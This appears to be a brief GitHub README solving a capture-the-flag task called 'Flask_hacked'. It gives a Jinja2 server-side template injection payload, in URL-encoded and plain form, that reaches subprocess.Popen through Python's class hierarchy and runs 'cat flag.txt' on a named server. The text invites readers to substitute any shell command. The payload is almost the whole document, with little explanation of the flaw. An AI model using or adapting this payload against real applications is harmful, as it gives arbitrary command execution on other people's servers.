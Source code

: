 # Flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

The first part is write URL 
>`167.172.55.94:31138`

Second part is write exploit and start bash command

`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!
